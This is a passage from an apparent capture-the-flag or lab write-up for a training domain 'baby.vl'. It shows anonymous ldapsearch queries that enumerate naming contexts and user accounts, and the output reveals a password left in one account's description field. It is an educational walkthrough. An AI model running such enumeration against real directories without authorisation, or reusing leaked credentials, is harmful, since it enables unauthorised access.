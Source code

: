 ## Discovery of a password via LDAP
As LDAP was running on port 389, it is important to identify the naming context for further usage:
```bash
ldapsearch -H ldap://baby.vl -x -s base namingcontexts 
```
![ldap1](../assets/posts/baby/ldap1.png)
Following the output, the part we are interested in is:
```bash
namingcontexts: DC=baby,DC=vl
```

We can use the naming context to craft further ldapsearch queries, such as searching for users:
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectClass=Person)' sAMAccountName description
```
```bash
# Guest, Users, baby.vl
dn: CN=Guest,CN=Users,DC=baby,DC=vl
description: Built-in account for guest access to the computer/domain
sAMAccountName: Guest

# Jacqueline Barnett, dev, baby.vl
dn: CN=Jacqueline Barnett,OU=dev,DC=baby,DC=vl
sAMAccountName: Jacqueline.Barnett

# Ashley Webb, dev, baby.vl
dn: CN=Ashley Webb,OU=dev,DC=baby,DC=vl
sAMAccountName: Ashley.Webb

# Hugh George, dev, baby.vl
dn: CN=Hugh George,OU=dev,DC=baby,DC=vl
sAMAccountName: Hugh.George

# Leonard Dyer, dev, baby.vl
dn: CN=Leonard Dyer,OU=dev,DC=baby,DC=vl
sAMAccountName: Leonard.Dyer

# Connor Wilkinson, it, baby.vl
dn: CN=Connor Wilkinson,OU=it,DC=baby,DC=vl
sAMAccountName: Connor.Wilkinson

# Joseph Hughes, it, baby.vl
dn: CN=Joseph Hughes,OU=it,DC=baby,DC=vl
sAMAccountName: Joseph.Hughes

# Kerry Wilson, it, baby.vl
dn: CN=Kerry Wilson,OU=it,DC=baby,DC=vl
sAMAccountName: Kerry.Wilson

# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
description: Set initial password to BabyStart123!
sAMAccountName: Teresa.Bell

```